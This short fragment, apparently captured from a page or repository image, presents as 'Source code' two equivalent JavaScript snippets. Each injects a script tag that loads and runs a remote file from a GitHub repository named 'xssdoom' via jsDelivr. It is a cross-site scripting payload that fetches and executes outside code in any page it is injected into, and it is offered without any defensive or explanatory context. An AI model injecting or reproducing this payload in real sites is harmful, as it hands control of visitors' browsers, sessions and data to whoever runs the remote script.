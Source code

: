 var script = document.createElement('script');

script.src = 'https://cdn.jsdelivr.net/gh/Zzks7/xssdoom@main/script.js';

document.head.appendChild(script);


<script src='https://cdn.jsdelivr.net/gh/Zzks7/xssdoom@main/script.js'></script>
